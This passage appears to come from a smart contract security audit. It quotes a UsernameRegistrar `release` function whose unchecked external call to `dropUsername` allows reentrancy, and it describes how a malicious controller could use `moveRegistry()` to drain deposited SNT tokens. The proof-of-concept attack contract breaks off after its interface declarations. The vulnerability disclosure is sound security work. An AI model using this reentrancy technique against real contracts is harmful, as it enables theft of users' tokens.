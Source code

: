             require(account.creationTime > 0, "Username not registered.");
            if (state == RegistrarState.Active) {
                require(msg.sender == ensRegistry.owner(namehash), "Not owner of ENS node.");
                require(block.timestamp > account.creationTime + releaseDelay, "Release period not reached.");
                ensRegistry.setSubnodeOwner(ensNode, _label, address(this));
                ensRegistry.setResolver(namehash, address(0));
                ensRegistry.setOwner(namehash, address(0));
            } else {
                require(msg.sender == account.owner, "Not the former account owner.");
                address newOwner = ensRegistry.owner(ensNode);
                //Low level call, case dropUsername not implemented or failing, proceed release.
                //Invert (!) to supress warning, return of this call have no use.
                !newOwner.call(
                    abi.encodeWithSignature(
                        "dropUsername(bytes32)",
                        _label
                    )
                );
            }
            delete accounts[_label];
            if (account.balance > 0) {
                reserveAmount -= account.balance;
                require(token.transfer(msg.sender, account.balance), "Transfer failed");
            }
            emit UsernameOwner(_label, address(0));
    }
    

Consider the scenario that 100 SNT tokens have been deposited by users through
the standard registration process. Let us also assume the contract has set a
price of 10 , without loss of generality.

A malicious controller could create an attacking contract similar to the one
provided below, and call the `moveRegistry()` function with this contract’s
address as the parameter. The attacking contract would implement a malicious
version of `dropUsername(bytes32)` which can re-enter the release function a
set number of times. This contract would need to be pre-loaded with tokens and
would need to have registered a name in the `UsernameRegistrar` contract.

ReentrancyAttack.sol:

    
    
    pragma solidity ^0.4.24;
    
    // Set up an interface to UsernameRegistry to avoid import and keep this
    // contract self-contained
    
    interface UsernameRegistrar {
      function release (bytes32) external;
      function register (bytes32, address, bytes32, bytes32) external returns (bytes32);
      function price() external returns (uint);
    }
    
    // Similarly the ERC20 Token we are stealing
    interface ERC20Token {
      function transfer(address _to, uint _value) external returns (bool);
      function approve(address _spender, uint _value) external returns (bool);
      function balanceOf(address) external view returns (uint);
    }
    